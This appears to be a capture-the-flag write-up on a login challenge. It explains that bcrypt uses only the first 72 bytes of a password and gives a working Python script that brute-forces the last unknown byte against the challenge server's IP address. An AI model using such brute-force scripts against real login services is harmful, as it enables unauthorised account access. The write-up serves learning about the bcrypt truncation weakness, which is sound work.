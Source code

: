 ```python
    if not bcrypt.checkpw(password, app.ADMIN_PW_HASH):
        return "Wrong password!" 
    return f"""Congrats! It appears you have successfully bf'ed the password. Here is your {FLAG}""" # Use f-string formatting within the template string template_string = """
```

So the password is hashed using bcrypt and the hash is stored in the `ADMIN_PW_HASH` variable.

The password is a string made of 128 random bytes, with the first 71 bytes given in the source code.

The naive way to brute-force this would be to try all the possible combinations of the remaining 57 bytes, which is `2^(57*8)` or `1.4e137` combinations. This is not really possible to do in a reasonable time (and would get me banned for DoS tentative probably).

But, after some reseach, I found out that even if bcrypt can accept a password of 128 bytes, it only uses the first 72 bytes of the password for the hash.

Since the first 71 bytes are given in the source code, we can just brute-force the last byte of the password, which is `2^8` or `256` combinations. This is much more reasonable and can be done in a few seconds.

So here's the code to brute-force the password:

```python
import requests

pass_71_head = b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
charcodes = [pass_71_head[i] for i in range(0, len(pass_71_head))]
hexs = [hex(i) for i in charcodes]

urlencoded = "".join([chr(i) for i in charcodes])

charset = []
for i in range(0x20, 0xff):
    charset.append(bytes([i]))

conn_uri = "http://52.59.124.14:5013/"

def try_pass(password):
    x = requests.request("GET", conn_uri, data={'username': 'admin', 'password': password}, headers={"Content-Type": "application/x-www-form-urlencoded"})
    return (x.text != "Wrong password!", x.text)

for i in charset:
    result, text = try_pass(pass_71_head + i)
    if result:
        print(text)
        break
```

This will just send up to 256 requests to the server, each one with a different password. The server will respond with the flag if the password is correct.
